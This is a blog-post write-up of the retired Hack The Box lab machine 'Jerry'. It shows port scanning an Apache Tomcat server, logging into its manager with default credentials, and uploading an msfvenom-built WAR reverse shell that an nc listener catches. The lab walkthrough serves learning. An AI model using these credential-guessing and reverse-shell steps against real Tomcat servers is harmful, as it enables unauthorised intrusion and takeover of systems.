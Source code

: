 ```yaml
---
layout: post
title: Hack The Box - Jerry
categories: hack-the-box
tags: [Windows, Web, RCE]
image: hackthebox/jerry/0.png
redirect_from: "/HackTheBox-Jerry/"
---
```


<hr>
#### Jerry has retired and this is my write-up about it...
<br>
#### Jerry was one of the easiest boxes on HTB. It was a beginner-box . 
#### It's a windows box and its ip is 10.10.10.95
![](/images/hackthebox/jerry/0.png)
<hr>
<br>
#### Starting with nmap to scan for tcp ports and services :
`nmap -sV -sT 10.10.10.95`
![](/images/hackthebox/jerry/1.jpg)
<hr>
<br>
#### We can see that the port 8080 is open and running http and the server is Apache Tomcat.
#### By visiting it in the browser we get the default tomcat configuration page.
![](/images/hackthebox/jerry/2.png)
<hr>
<br>
#### There's a manager app so let's try to access it .
![](/images/hackthebox/jerry/3.png)
<hr>
<br>
#### It asks for authentication and common passwords like those mentioned below didn't work:
*tomcat:tomcat* <br>
*admin:admin* <br>
*admin:password* <br>
*user:password* <br>
#### So by closing the login panel it causes an error because we are not authorized to view the manager page
#### But by looking at the error page :
![](/images/hackthebox/jerry/4.png)
<hr>
<br>
#### It shows these credentials :
*tomcat:s3cret*
#### This seems to be a part of the documentation and those credentials are dafault credentials.
#### Will they work ? yup !
![](/images/hackthebox/jerry/5.png)
![](/images/hackthebox/jerry/6.png)
<hr>
<br>
## Exploitation
#### Now we are logged in to the manager app and we can get a shell from here
<br>
#### We are on an apache tomcat server and apache tomcat uses WAR files.
#### To get a reverse shell we will use msfvenom to create the payload :
<br>
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`
![](/images/hackthebox/jerry/7.jpg)
<br>
#### Then we will upload our payload to the server.
![](/images/hackthebox/jerry/8.jpg)
![](/images/hackthebox/jerry/9.jpg)
<br>
#### Then we will listen to the port with netcat :
<br>
`nc -lvnp 4449`
<hr>
<br>
#### Now we got a reverse shell as admin so there's no need for previlege escalation.

![](/images/hackthebox/jerry/10.jpg)
<br>
<br>
![](/images/hackthebox/jerry/11.jpg)
<br>
<br>
![](/images/hackthebox/jerry/12.jpg)
<br>
<hr>
#### Another way to do this is to use this tool written by **mgeeky** [TomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) to automate the process of getting a shell
![](/images/hackthebox/jerry/13.jpg)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Next Hack The Box write-up : [Hack The Box - Hawk](/hack-the-box/hawk/)
<hr>
